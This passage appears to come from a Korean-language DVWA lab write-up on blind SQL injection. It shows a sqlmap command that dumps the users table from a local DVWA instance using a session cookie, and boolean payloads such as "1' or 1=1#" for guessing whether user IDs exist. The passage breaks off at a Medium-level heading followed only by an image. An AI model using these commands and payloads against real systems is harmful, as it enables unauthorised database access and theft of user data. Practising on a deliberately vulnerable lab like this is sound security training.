      python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=h9pjp1rqf34n8em188dnuu66ca" -T users -dump

     user에 대한 정보를 볼 수 있다. 

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-7.png?raw=true" width="500" height="300"/>

    1' or 1=1# 
    1' or 1=2#
    .
    .
    .
    1' and 1= 1#
    .
    .

    등 예상을 하며 user ID가 존재하는지 비교하는 방법역시 있다.

## Medium

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)%20medium%20-1.png?raw=true" width="500" height="450"/>
